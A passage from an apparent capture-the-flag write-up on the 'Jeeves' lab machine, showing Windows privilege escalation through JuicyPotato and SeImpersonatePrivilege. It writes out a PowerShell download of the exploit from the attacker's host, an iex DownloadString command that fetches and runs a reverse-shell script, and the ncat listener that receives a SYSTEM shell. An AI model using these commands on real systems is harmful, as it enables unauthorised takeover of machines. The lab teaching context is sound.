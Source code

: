 The combination of being part of the `NT AUTHORITY\SERVICE`, having the `SeImpersonatePrivilege` privilege, and running on a `Windows 10 Professional x64` machine is a recipe for the [JuicyPotato](https://book.hacktricks.xyz/windows/windows-local-privilege-escalation/juicypotato) privilege escalation exploit which allows the user to execute arbitrary commands with `SYSTEM` privileges.

I downloaded the `JuicyPotato.exe` exploit from my Kali machine to the jeeves host via HTTP:

```powershell
(New-Object System.Net.WebClient).DownloadFile("http://10.10.14.24:8000/JuicyPotato.exe","C:\Windows\Temp\r0kit\JuicyPotato.exe")
```

I then ran the exploit such that I could invoke a temporary PowerShell command that would download and execute the `Invoke-PowerShellTcp.ps1` script from my Kali machine which would connect back to my netcat listener. This would grant me a PowerShell reverse shell with `SYSTEM` privileges.

```
PS C:\Windows\Temp\r0kit> .\JuicyPotato.exe -l 1337 -p 'C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe' -a "iex(New-Object System.Net.WebClient).DownloadString('http://10.10.14.24:8000/Invoke-PowerShellTcp.ps1')" -t *
Testing {4991d34b-80a1-4291-83b6-3328366b9097} 1337
......
[+] authresult 0
{4991d34b-80a1-4291-83b6-3328366b9097};NT AUTHORITY\SYSTEM

[+] CreateProcessWithTokenW OK
```

```
$ rlwrap ncat -nvlp 2001
Ncat: Version 7.80 ( https://nmap.org/ncat )
Ncat: Listening on :::2001
Ncat: Listening on 0.0.0.0:2001
Ncat: Connection from 10.10.10.63.
Ncat: Connection from 10.10.10.63:49690.
Windows PowerShell running as user JEEVES$ on JEEVES
Copyright (C) 2015 Microsoft Corporation. All rights reserved.

PS C:\Windows\system32>whoami
nt authority\system
```

### Grabbing the root.txt Flag (Alternate Data Streams)

At this point, I found a file `C:\Users\Administrator\Desktop\hm.txt` rather than `C:\Users\Administrator\Desktop\root.txt`:

```
PS C:\Users\Administrator\Desktop> dir


    Directory: C:\Users\Administrator\Desktop


Mode                LastWriteTime         Length Name
----                -------------         ------ ----
-ar---       12/24/2017   2:51 AM             36 hm.txt
-a----        11/8/2017   9:05 AM            797 Windows 10 Update
                                                 Assistant.lnk


PS C:\Users\Administrator\Desktop> Get-Content hm.txt
The flag is elsewhere.  Look deeper.
```
